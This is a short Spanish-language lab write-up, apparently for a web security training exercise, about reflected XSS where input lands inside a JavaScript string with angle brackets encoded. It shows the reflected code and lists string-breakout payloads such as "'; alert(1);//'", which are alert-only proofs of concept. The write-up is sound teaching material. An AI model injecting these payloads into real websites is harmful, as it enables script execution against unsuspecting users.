


# Reflected XSS into a JavaScript string with angle brackets HTML encoded

Ingresando la palabra `seven` y interceptando con burpsuite podemos ver :



Luego tenemos en la respuesta lo siguiente



Vemos un código en JavaScript que ejecuta cierta acción con la palabra que ingresamos

```c
console.log(encodeURIComponent('test?'));
// Expected output: "test%3F"
```

Entonces podemos ejecutar comandos en;

```c
var searchTerms='<xss>' 
```

Para ello tuve que probar varias cosas y en ellas funciona las siguiente:

```c
'; alert(1);//'
```

Si ingresamos el anterior quedaría de la siguiente manera:

```c
var searchTerms=''; alert(1);//'' 
```

```c
'*alert('xss')*'
'-alert('xss')-'
';alert('xss');//'
```

